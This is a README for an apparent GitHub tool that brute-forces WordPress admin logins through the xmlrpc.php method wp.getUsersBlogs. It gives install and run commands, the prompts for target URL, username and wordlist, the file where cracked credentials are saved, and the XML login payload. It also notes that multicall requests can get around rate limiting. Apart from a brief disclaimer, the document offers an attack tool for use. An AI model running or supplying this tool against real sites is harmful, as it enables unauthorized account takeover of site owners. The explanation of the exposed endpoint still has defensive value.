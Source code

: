 ## overview
this tool performs a **brute force attack** against WordPress sites via the vulnerable XML-RPC API method `wp.getUsersBlogs`.

If `xmlrpc.php` is enabled and not protected, it allows attackers to send repeated login attempts in a structured XML format — sometimes even batching them together — bypassing traditional brute force protections.

---

## disclaimer
this script is for **educational purposes only**.  
do not use it against systems you don’t own or without **explicit permission**.  
unauthorized use may be **illegal** and could cause **criminal charges**.

---

## installation

clone repo and install dependencies:
```bash
git clone https://github.com/Pwdnx1337/xmlrpc-bruteforcer
cd xmlrpc-bruteforcer
pip install -r requirements.txt
````
## usage

run the script:

```bash
python3 xmlrpc.py
```

it will prompt:

```
url: https://example.com/xmlrpc.php
username: admin
password: wordlist.txt
```

* **url** > target site XML-RPC endpoint
* **username** > WordPress username to attack
* **password** > path to your password list file

successful credentials are saved in:

```
save.txt
```

example entry:

```
https://example.com/xmlrpc.php admin:password123
```

---

## technical Explanation

* WordPress includes `xmlrpc.php`, an API endpoint used for remote publishing, pingbacks, and integrations.
* inside `xmlrpc.php`, the method `wp.getUsersBlogs` can authenticate a user with **username + password**.
* if brute-force protections are not applied:

  * an attacker can automate thousands of login attempts via XML-RPC.
  * unlike `wp-login.php`, XML-RPC may not trigger login rate-limiting.
  * some servers allow **multicall requests** (dozens of login attempts in a single HTTP request).

### attack flow

1. script prepares an XML payload with:

   ```xml
   <methodName>wp.getUsersBlogs</methodName>
   <params>
     <param><value><string>{username}</string></value></param>
     <param><value><string>{password}</string></value></param>
   </params>
   ```
2. sends payload via `POST` to `xmlrpc.php`.
3. if credentials are correct > the response contains `<name>` and `isAdmin`.
4. once found, credentials are logged to `save.txt`.

